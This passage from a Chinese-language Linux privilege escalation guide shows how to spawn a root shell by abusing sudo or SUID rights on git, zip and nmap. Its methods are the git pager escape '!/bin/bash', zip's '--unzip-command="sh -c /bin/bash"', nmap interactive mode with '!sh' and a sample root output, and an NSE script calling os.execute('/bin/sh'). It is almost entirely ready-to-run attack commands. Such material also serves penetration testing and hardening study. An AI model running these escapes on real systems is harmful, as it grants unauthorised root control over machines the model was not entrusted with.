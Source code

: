 ## 4.5 git 提权

```shell
git help add
git help config
git -p help
//三选一
输密码
再
!/bin/bash
即可
```

## 4.6 zip提权

zip 命令用于压缩文件，是个 使用广泛的压缩程序，压缩后的文件后缀名为 .zip。通过压缩一个存在的文件，并调用-T参数输出shell

1. 下载zip（如果没有）**apt install zip**

2. 创建一个1.txt，将其压缩为1.zip

3. 执行

```shell
touch 1.txt
zip 1.zip 1.txt -T --unzip-command="sh -c /bin/bash"
或
touch 1.txt
zip 1.zip 1.txt -T -unzip-command="sh -c /bin/bash"
```

## 4.7 nmap提权

较旧版本的Nmap（2.02≤nmap<5.21）带有交互模式，从而允许用户执行shell命令。由于Nmap位于上面使用root权限执行的二进制文件列表中，因此可以使用交互式控制台来运行具有相同权限的shell。）

可以使用下命令进入namp交互模式

```
nmap --interactive
nmap> !sh
sh-3.2# whoami
root
执行命令后会返回一个shell
```

5.2.0 之后，nmap 还可以通过执行脚本来提权

```
# nse脚本 shell.nse
os.execute('/bin/sh')
# nmap 提权
nmap --script=shell.nse 

或者：
echo 'os.execute("/bin/sh")' > getshell
sudo nmap --script=getshell
```
